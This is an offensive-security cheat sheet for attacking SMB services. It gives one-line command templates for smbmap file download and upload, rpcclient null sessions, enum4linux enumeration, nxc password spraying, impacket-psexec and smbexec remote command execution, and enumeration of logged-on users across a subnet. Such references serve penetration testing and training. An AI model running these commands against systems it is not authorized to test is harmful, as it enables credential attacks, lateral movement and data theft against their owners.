 ## attacking common services - smb - download file
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
smbmap -H <IP> --download "<dir/file>"
```

## attacking common services - smb - upload file
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
smbmap -H <IP> --upload <file2Upload> "<dir/outNameFile>"
```


## attacking common services - smb rpcclient - null session
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
rpcclient -U'%' <IP>
```

## attacking common services - smb rpcclient - automate smb enumeration
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
enum4linux <ip> -A -C
```

## attacking common services - smb - password spraying
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
nxc smb <targetIP> -u <userlist> -p '<password2spray>' --local-auth
```

## attacking common services - smb - impacket psexec
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
impacket-psexec <username>:'<password>'@<targetIP>
```

## attacking common services - smb - nxc smb exec
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
nxc smb <IP> -u <username> -p '<password>' -x '<command>' --exec-method smbexec
```

## attacking common services - smb - nxc enum logged on users
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
nxc smb <IPsegment>/24 -u <username> -p '<password>' --loggedon-users
```
